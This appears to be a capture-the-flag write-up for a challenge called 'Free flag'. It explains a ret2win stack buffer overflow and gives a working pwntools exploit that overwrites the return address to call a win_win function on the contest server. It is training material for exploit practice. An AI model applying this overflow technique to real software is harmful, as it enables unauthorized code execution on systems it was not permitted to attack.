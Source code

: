 # Free flag

>Simple ret2win exploit. 

It calls read on rbp-0x20, reading 0x38 bytes. 

This is enough for 16 bytes after RBP. 

We simply send 0x28 junk bytes + ret gadget + win_win function address(win_win is a function executing cat flag.txt whilst the ret gadget is for stack alignment)

For some reason I had to put an interactive session just when I connected to the server and hit control c so that the exploit continued in order for it to work...

```python
from pwn import *
e = ELF("./chall")
NUM_TO_RET = 0x20 + 8
padding = b'A' * NUM_TO_RET
retgadget = 0x00000000004005ae # ret
payload = padding + p64(retgadget) + p64(e.symbols['win_win'])
#p = e.process()
p = remote('europe.pwn.zh3r0.ml', 3456)
p.interactive()
p.sendline(payload)
p.interactive()
```
